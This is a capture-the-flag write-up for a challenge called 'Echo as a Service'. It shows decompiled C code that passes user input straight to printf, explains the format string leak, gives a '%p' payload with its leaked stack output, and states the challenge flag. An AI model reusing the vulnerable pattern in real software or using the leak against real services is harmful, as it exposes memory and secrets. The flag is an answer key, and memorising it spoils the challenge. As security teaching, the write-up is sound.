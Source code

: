 # Echo as a Service

## Description

> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.
> 
> nc challenges.tamuctf.com 4251

The corresponding binary is given.

## Solution

Let's reverse the code using [Ghidra](https://ghidra-sre.org/).
```c

void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_48 [32];
  char local_28 [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x2,0,0);
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) {
    fgets(local_48,0x19,__stream);
  }
  do {
    puts("Echo as a service (EaaS)");
    gets(local_28);
    printf(local_28);
    putchar(10);
  } while( true );
}
```

The program opens the flag and loads it on the stack (buffer ```local_48```) then the program acts as an echo: we give it an input, and it prints it back.

The instruction to write the string back is ```printf(local_28);```: this is vulnerable to format string attack. The idea of a format string attack is to include formats in the string in order to leak or modify data. For instance giving the string "%p" leaks the first number on the stack. As the flag is on the stack, we can recover the flag.

Note: a more safe use would be to use ```printf("%s", local_28);```


The payload is therefore a series of "%p" in order to retrieve the flag. By giving 10 %p, we get back the following string:
```
0x558d47fd84a1 0x7f2ba63338d0 0x7f2ba6331a00 0x558d47fd84c1 (nil) 0x7ffde96a82f8 0x558d47fd7260 0x61337b6d65676967 0x616d7230665f7973 0x7d316e6c75765f74
```

The last 3 integers can be decoded (using [asciitohex](https://www.asciitohex.com/) for example) to the flag.

Flag: gigem{3asy_f0rmat_vuln1}